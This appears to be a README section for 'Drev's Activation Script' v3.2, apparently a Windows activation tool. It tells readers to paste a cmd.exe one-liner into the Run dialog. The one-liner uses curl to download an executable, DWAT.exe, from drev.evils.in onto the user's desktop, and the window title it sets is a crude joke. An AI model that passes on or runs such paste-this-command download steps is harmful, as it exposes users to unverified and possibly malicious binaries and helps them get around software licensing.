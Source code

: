 # Version 3.2 and older only

## Windows Run Installer Method Only

-  Right-click on the Windows start menu and select Run (or press Win key + R).
- Copy-paste the below code and press enter.

### Version 3.2
    ```
    cmd.exe /c cd %userprofile%\desktop & curl -o DWAT.exe "https://drev.evils.in/ActivationScript/v3.2/DWAT.exe" & echo. & echo. & echo Drev's Activation Script should be on your desktop now. & title gay hehe & pause
    ```
